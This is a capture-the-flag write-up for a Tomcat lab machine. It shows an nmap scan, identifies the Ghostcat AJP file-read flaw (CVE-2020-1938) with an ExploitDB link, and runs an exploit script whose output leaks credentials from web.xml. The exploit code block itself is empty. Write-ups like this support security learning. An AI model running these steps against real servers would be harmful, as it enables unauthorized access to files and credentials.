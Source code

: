 # TOMCAT
Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

## Resolution

First, machine scanning
```
$ sudo nmap -sV -sC 10.10.210.249 -Pn -n --disable-arp-ping

Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-21 08:46 CET
Nmap scan report for 10.10.210.249
Host is up (0.041s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 8080 running an Apache Tomcat 9 web server. Navigating there, we found the default page after setup of the server. Additionaly, ajp13 is exposed on port 8009 which, after some research about the two services, might expose a vulnerability named *Ghostcat*:
> Ghostcat is a LFI vulnerability, but somewhat restricted: only files from a certain path can be pulled. Still, this can include files like WEB-INF/web.xml which can leak important information like credentials for the Tomcat interface, depending on the server setup.

CVE of the vulnerability: CVE-2020-1938.\
A potential exploit: [from ExploitDB](https://www.exploit-db.com/exploits/48143).


I tried using the exploit directly and found some (small) issues so here is the edited version:
```Python
```

Using the exploit to get the default file

```
$ ./ajpexp.py -p 8009 10.10.210.249

Getting resource at ajp13://10.10.210.249:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfu*k:8730281lkjlkjdqlksalks
  </description>

</web-app>
```
